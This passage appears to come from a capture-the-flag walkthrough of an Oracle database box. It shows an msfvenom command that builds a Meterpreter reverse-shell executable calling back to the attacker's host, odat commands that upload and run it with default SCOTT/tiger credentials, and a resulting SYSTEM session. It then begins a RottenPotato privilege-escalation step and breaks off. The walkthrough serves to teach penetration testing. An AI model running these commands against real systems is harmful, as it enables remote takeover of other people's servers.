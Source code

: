 While `odat` had indicated that we couldn’t execute files, in fact, we can,
with the `externaltable` method. However, if we look at the help, it can only
run an executable, no options allowed. So we’ll use `msfvenom` to make an exe:

    
    
    root@kali# msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.14 LPORT=8084 -f exe -o shell.exe
    [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
    [-] No arch selected, selecting arch: x64 from the payload
    No encoder or badchars specified, outputting raw payload
    Payload size: 510 bytes
    Final size of exe file: 7168 bytes
    Saved as: shell.exe
    

Now upload it:

    
    
    root@kali# odat utlfile -s 10.10.10.82 -U SCOTT -P tiger -d XE --sysdba --putFile \\temp shell.exe shell.exe
    
    [1] (10.10.10.82:1521): Put the shell.exe local file in the \temp folder like shell.exe on the 10.10.10.82 server
    [+] The shell.exe file was created on the \temp directory on the 10.10.10.82 server like the shell.exe file
    

And run it:

    
    
    root@kali# odat externaltable -s 10.10.10.82 -U SCOTT -P tiger -d XE --sysdba --exec \\temp shell.exe
    
    [1] (10.10.10.82:1521): Execute the shell.exe command stored in the \temp path
    

This gives us a callback, which is a system shell:

    
    
    msf exploit(multi/handler) > run
    
    [*] Started reverse TCP handler on 10.10.14.14:8084
    [*] Sending stage (206403 bytes) to 10.10.10.82
    [*] Meterpreter session 1 opened (10.10.14.14:8084 -> 10.10.10.82:49168) at 2018-08-03 07:22:00 -0400
    
    meterpreter > getuid
    Server username: NT AUTHORITY\SYSTEM
    

### RottenPotato Privesc

If we check `whoami /priv`, we’ll see SeImpersonatePrivilege:

    
    
    PS C:\windows\system32\inetsrv>whoami /priv
    
    PRIVILEGES INFORMATION
    ----------------------
    